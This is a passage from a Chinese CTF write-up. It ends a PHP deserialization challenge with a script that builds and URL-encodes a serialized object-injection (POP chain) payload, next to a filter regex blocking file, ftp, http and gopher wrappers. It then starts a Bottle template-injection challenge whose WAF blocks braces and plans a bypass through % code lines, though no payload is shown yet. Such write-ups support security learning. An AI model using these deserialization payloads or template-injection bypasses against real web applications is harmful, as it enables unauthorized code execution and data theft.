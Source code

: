 ```php
    public function __invoke() {
        $this->append($this->yicheng);
    }

}

class Jie_Xusheng {
    public $sha;
    public $jiu;

    public function __toString() {
        return $this->jiu->sha;
    }
    
    public function __wakeup() {
        if (preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->sha)) {
            echo "你休想偷看吴国机密";
        }
    }

}

$a = new Jie_Xusheng();
$a->sha=new Jie_Xusheng();
$a->sha->jiu = new GuDingDa0();
$a->sha->jiu->desheng=new TieSuoLianHuan();

echo serialize($a);
echo "\n\n\n";
echo (str_replace('_', '%5F', urlencode(serialize($a))));
echo "\n";

```

构造payload得到flag的base64码



## 230. [GHCTF 2025]Message in a Bottle

![image-20250702152307247](D:\ctf wp\201-240.assets\image-20250702152307247.png)、

![image-20250702152414434](D:\ctf wp\201-240.assets\image-20250702152414434.png)

看附件源代码 设置了waf屏蔽{}符号![image-20250702152902312](D:\ctf wp\201-240.assets\image-20250702152902312.png)，那说明可以绕过再ssti模板注入

把附件代码抛给ai 这题用了bottle框架，查询bottle的ssti

查看官方文档  [模板引擎](https://so.csdn.net/so/search?q=模板引擎&spm=1001.2101.3001.7020)允许您在模板中嵌入python代码的行或块。代码行以开头 `%` [代码块](https://so.csdn.net/so/search?q=代码块&spm=1001.2101.3001.7020)被 `<%` 和 `%>` 令牌：

![image-20250706205441305](D:\ctf wp\201-240.assets\image-20250706205441305.png)
